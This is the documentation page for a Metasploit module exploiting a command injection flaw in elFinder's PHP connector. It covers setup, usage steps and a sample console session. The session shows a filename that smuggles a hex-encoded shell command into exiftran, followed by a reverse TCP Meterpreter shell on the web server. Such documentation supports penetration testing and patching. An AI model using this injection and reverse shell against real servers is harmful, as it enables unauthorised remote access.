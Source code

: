 ## Description

  This module exploits a command injection vulnerability in elFinder
  versions prior to 2.1.48.

  The PHP connector component allows unauthenticated users to upload
  files and perform file modification operations, such as resizing and
  rotation of an image. The file name of uploaded files is not validated,
  allowing shell metacharacters.

  When performing image operations on JPEG files, the filename is passed
  to the `exiftran` utility without appropriate sanitization, causing
  shell commands in the file name to be executed, resulting in remote
  command injection as the web server user.

  The PHP connector is not enabled by default.

  The system must have `exiftran` installed and in `$PATH`.


## Vulnerable Software

  [elFinder](https://studio-42.github.io/elFinder/) is an open-source file
  manager for web, written in JavaScript using jQuery and jQuery UI.

  This module has been tested successfully on elFinder versions 2.1.47,
  2.1.20 and 2.1.16 on Ubuntu.

  Enable the PHP connector:

  ```
  mv php/connector.minimal.php-dist php/connector.minimal.php
  ```

  Install required `exiftran` utility:

  ```
  apt-get install exiftran
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection`
  3. Do: `set rhosts <IP>`
  4. Do: `run`
  5. You should get a new session

## Options

### TARGETURI

  The base path to elFinder (default: `/elFinder/`)


## Scenarios

  ```
  msf > use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection 
  msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set rhosts 172.16.191.253
  rhosts => 172.16.191.253
  msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set targeturi /elFinder-2.1.47
  targeturi => /elFinder-2.1.47
  msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set verbose true
  verbose => true
  msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > check
  [*] 172.16.191.253:80 - The target service is running, but could not be validated.
  msf exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run
  
  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Uploading payload 'CDj7j1.jpg;echo 6370202e2e2f66696c65732f43446a376a312e6a70672a6563686f2a202e6b50555871684d5a2e706870 |xxd -r -p |sh& #.jpg' (1894 bytes)
  [*] Triggering vulnerability via image rotation ...
  [*] Executing payload (/elFinder-2.1.47/php/.kPUXqhMZ.php) ...
  [*] Sending stage (38247 bytes) to 172.16.191.253
  [*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.253:35564) at 2019-03-08 21:57:18 -0500
  [!] Tried to delete .kPUXqhMZ.php, unknown result
  [*] No reply
  [*] Removing uploaded file ...
  [+] Deleted uploaded file
  
  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > sysinfo
  Computer    : ubuntu
  OS          : Linux ubuntu 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
  Meterpreter : php/linux
  meterpreter > 
  ```

